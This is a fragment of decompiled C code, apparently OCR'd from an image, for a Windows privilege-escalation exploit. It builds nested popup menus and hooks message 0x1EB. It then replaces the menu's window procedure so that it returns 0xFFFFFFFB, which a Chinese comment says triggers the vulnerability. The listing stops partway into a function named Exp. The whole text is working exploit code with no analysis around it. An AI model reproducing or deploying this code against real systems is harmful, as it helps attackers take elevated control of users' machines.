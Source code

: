 ```
  HMENU v9; // [sp+6Ch] [bp-4h]@1

  v9 = 0;
  memset((void *)&mi, 0, sizeof(mi));
  memset(&v4, 0, sizeof(MENUITEMINFOA));
  mi.cbSize = 48;
  v0 = CreatePopupMenu();
if ( v0 )
  {
    mi.fMask = 64;
if ( InsertMenuItemA(v0, 0, 1, &mi) )
    {
      v4.fMask = 68;
      v4.dwTypeData = (LPSTR)&dword_40DA54;
      v4.cch = 1;
      v4.hSubMenu = v0;
      v4.cbSize = 48;
      v1 = CreatePopupMenu();
      v9 = v1;
if ( !v1 || !InsertMenuItemA(v1, 0, 1, (LPCMENUITEMINFOA)&v4) )
      {
        DestroyMenu(v0);
if ( v1 )
          DestroyMenu(v1);
      }
    }
else
      DestroyMenu(v0);
  }
return (int)v9;
}

unsigned int __stdcall sub_4013F3(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam)
{
if ( Msg != 0x1EB )
return CallWindowProcA(lpPrevWndFunc, hWnd, Msg, wParam, lParam);
return 0xFFFFFFFBu;//返回xFFFFFFFB，触发漏洞
}

LRESULT __stdcall pfnFilterProc(int nCode, WPARAM wParam, LPARAM lParam)
{
if ( *(DWORD *)(lParam + 8) == 0x1EB )
  {
        UnhookWindowsHook(4, pfnFilterProc);
        //设置PopupMenu的窗口消息处理函数
        lpPrevWndFunc = (WNDPROC)SetWindowLongA(*(HWND *)(lParam + 12), -4, (LONG)sub_4013F3);
  }
return CallNextHookEx(0, nCode, wParam, lParam);
}

int __stdcall Exp()
{
int v1; // ebx@3
  DWORD v2; // eax@5
int result; // eax@12
  HWND hWnd; // [sp+10h] [bp-58h]@2
signed int v5; // [sp+14h] [bp-54h]@1
  LPVOID lpAddress; // [sp+18h] [bp-50h]@1
struct _SYSTEM_INFO SystemInfo; // [sp+1Ch] [bp-4Ch]@1
  WNDCLASSA WndClass; // [sp+40h] [bp-28h]@1
  v5 = 0;
  lpAddress = 0;
  memset(&SystemInfo, 0, 0x24u);
```